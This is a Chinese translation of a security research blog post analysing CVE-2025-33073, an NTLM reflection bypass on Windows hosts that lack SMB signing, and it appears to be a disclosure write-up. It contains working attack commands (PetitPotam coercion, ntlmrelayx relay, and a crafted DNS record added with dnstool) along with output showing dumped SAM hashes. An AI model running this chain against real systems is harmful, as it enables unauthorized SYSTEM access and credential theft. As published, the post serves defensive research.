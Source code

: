 #  NTLM 反射已死，NTLM 反射长存！——深入分析 CVE-2025-33073  
Wilfried Bécard  securitainment   2025-06-20 05:37  
  
> 【翻译】NTLM reflection is dead, long live NTLM reflection! – An in-depth   
  
> 免责声明：本博客文章仅用于教育和研究目的。提供的所有技术和代码示例旨在帮助防御者理解攻击手法并提高安全态势。请勿使用此信息访问或干扰您不拥有或没有明确测试权限的系统。未经授权的使用可能违反法律和道德准则。作者对因应用所讨论概念而导致的任何误用或损害不承担任何责任。  
  
  
近二十年来，Windows 系统一直饱受 NTLM 反射漏洞的困扰。在本文中，我们将介绍 CVE-2025-33073，这是一个逻辑漏洞，它绕过了 NTLM 反射缓解措施，允许经过身份验证的远程攻击者在任何未强制执行 SMB 签名（SMB signing）的机器上以 SYSTEM 权限执行任意命令。本文将详细阐述该漏洞的发现过程、根本原因的完整分析以及微软的修复方案。  
## 引言  
  
NTLM 反射是 NTLM 认证中继（NTLM authentication relay）的一种特殊情况，其中原始认证被中继回发起认证的机器。这类漏洞最初通过 MS08-68 公之于众，微软在其中阻止了 SMB 到 SMB 的 NTLM 反射。多年来，其他利用途径（exploitation vectors）也被发现并修复，例如 HTTP 到 SMB 的反射（在 MS09-13 中修复）或 DCOM 到 DCOM 的反射（在 MS15-076 中修复）。  
  
如今，人们普遍认为 NTLM 反射攻击途径已被修复，但不时有研究表明，绕过缓解措施只是深入研究这些缓解措施实际工作原理的问题。  
  
最近，一条推文展示了 Kerberos 反射并未受到限制，这激发了我们的兴趣，并促使我们深入研究认证反射。  
## 漏洞发现  
  
作为测试的基线，让我们看看当尝试将 SMB 认证中继回同一台机器时会发生什么。我们的测试机器（SRV1）是一台最新的 Windows Server 2022，已加入域，且未强制执行 SMB 签名：  
```
$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL 192.168.56.3 SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[-] Authenticating against smb://SRV1.ASGARD.LOCAL as ASGARD/SRV1$ FAILED
```  
  
PetitPotam 强制 SYSTEM 服务 (lsass.exe  
) 向受控机器进行身份验证，因此会收到机器账户的身份验证。由于身份验证源自同一台机器，中继失败。  
  
为了寻找异常行为，我们尝试调整了不同的参数，例如监听主机或客户端 IP 地址。我们注册了 srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  
 DNS 记录，并将其指向我们的 IP 地址。这种格式最早由 James Forshaw 记录，并在我们之前的博客文章中讨论过，可用于强制机器通过 Kerberos 向受控 IP 地址进行身份验证。当我们使用上述 DNS 记录作为监听器强制 SRV1 时，我们遇到了一个奇怪的行为：中继竟然成功了！  
```
$ dnstool.py -u 'ASGARD.LOCAL\loki' -p loki 192.168.56.10 -a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.56.3
[-] Adding new record
[+] LDAP operation completed successfully

$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[*] Authenticating against smb://SRV1.ASGARD.LOCAL as / SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x0c10b250470be78cbe1c92d1b7fe4e91
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```